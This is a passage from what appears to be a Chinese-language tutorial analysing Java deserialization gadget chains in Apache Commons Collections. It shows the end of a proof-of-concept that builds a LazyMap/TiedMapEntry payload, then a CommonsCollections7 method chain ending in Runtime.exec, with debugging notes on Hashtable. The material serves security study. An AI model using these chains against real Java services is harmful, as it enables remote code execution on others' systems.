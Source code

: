 ```java
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesImpl})
        };

        Transformer transformerChain = new ChainedTransformer(new Transformer[]{new ConstantTransformer(1)});

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");

        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        outerMap.remove("keykey");

        Reflection.setFieldValue(transformerChain, "iTransformers", transformers);
        Serialization.test(expMap);
    }
}
```

## CommonsCollections7

cc7 利用的是 hash 碰撞来触发 Hashtable 的 equals 方法, 进而调用 LazyMap get

```
Payload method chain:

java.util.Hashtable.readObject
java.util.Hashtable.reconstitutionPut
org.apache.commons.collections.map.AbstractMapDecorator.equals
java.util.AbstractMap.equals
org.apache.commons.collections.map.LazyMap.get
org.apache.commons.collections.functors.ChainedTransformer.transform
org.apache.commons.collections.functors.InvokerTransformer.transform
java.lang.reflect.Method.invoke
sun.reflect.DelegatingMethodAccessorImpl.invoke
sun.reflect.NativeMethodAccessorImpl.invoke
sun.reflect.NativeMethodAccessorImpl.invoke0
java.lang.Runtime.exec
```

关注 Hashtable 的 readObject

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211232048387.png)

循环获取 key 和 value 之后会调用 reconstitutionPut 来放入 hashtable

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211232049499.png)

这里调试的是第二次循环, 先计算 key hashCode, 然后得到 index 索引, 通过 index 来检测 hashtable 中是否已经存在对应的元素
